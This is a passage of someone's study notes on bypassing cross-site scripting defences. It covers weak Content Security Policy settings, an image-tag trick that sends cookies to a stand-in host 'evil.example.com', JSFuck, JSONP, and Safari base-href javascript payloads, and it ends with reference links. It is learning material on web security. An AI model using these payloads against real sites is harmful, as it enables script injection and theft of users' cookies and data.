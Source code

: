 + `script-src` that allow XSS:
 - `script-src 'unsafe-inline'`
 - `script-src http`
 - `script-src https`
 - `script-src *`

+ `img-src` - FIREFOX SPECIFIC
 - Stealing With Images
 - Only _works if image is above the html content_
 - Can transport sensitive info like cookies over using JS
   `<img src='https://evil.example.com?`
 - If you look at the _nework tab_ in the _developer tools_ the html from the webpage can be send

## [Bypassing] (6) - JS Fuck
[Link]: http://www.jsfuck.com/
+ Javascript only using: `[]()!` -  may be some other

## [Bypassing] (7) - JSONP
* CORS Attack
[There's a chapter on JSONP - LiverOverflow]: https://www.youtube.com/watch?v=aCexqB9qi70

## [Bypassing] (8) - Regex
+ Break out of _regex context_ with the `/`
+ `*-` after the forward slash is ok and won't throw an error so long as 
+ Parantheses `()` 

## [Bypassing] (9) - Regex Bypass for Safari
1. Use regex format in _Safari_
[LiveOverflow]: https://www.youtube.com/watch?v=eQFbG6CwwdI
```Regex_Format
<base href="javascript:/a/-alert(1)/">
                            ^this gets executed
<a href="test.html">click</a>
```

 +  Adding `//////` to bypass potential combining of `base` and `href`
```//////
                                    v----these will combine with `../` below
<base href="javascript:/a/-alert(1)/////////">                    |
                                                                  |
<a href="../../../lol/test.html">click</a>                        |
         ^--------------------------------------------------------+
```

------------------------------------------------------------------------------------------
------------------------------------------------------------------------------------------
    

# 3. Exploit Development
* Uses: CSS Selectors, Events, Event Handlers, JS Ajax Requests, JS Functions,
        JS HTML Collections, JS strings, JS objects, JS variables, JSON encoding,
        URLs
 [Chef Secure]:  https://chefsecure.com/courses/xss/recipes/how-to-create-real-xss-exploits-to-attack-websites
 [12 XSS]: https://chefsecure.com/blog/the-12-exploits-of-xss-mas-infographic
  * Some were not included


[Portswigger Cheat Sheet]: https://portswigger.net/web-security/cross-site-scripting/cheat-sheet
[Above Downloaded File]: /sec/web/xss/xss-cheat-sheet.pdf
[AppSecEU Slides & Videos]: https://2017.appsec.eu/slides-and-videos
[Course]: https://chefsecure.com/courses/xss
[LiveOverflow]: https://www.youtube.com/watch?v=HcrQy0C-hEA
[OWASP Cheat Sheet]: https://cheatsheetseries.owasp.org/cheatsheets/XSS_Filter_Evasion_Cheat_Sheet.html
  [Payload of All Things]: https://github.com/swisskyrepo/PayloadsAllTheThings
[Link]: https://security.stackexchange.com/questions/173032/xss-payload-without
[Script Gadgets]: /sec/web/xss/Bypassing XSS mitigations via Script gadgets.pdf
[Video]: https://www.youtube.com/watch?v=p07acPBi-qw&list=PLpr-xdpM8wG8RHOguwOZhUHkKiDeWpvFp&index=4
[Link]: https://developer.mozilla.org/en-US/docs/Web/HTTP/CSP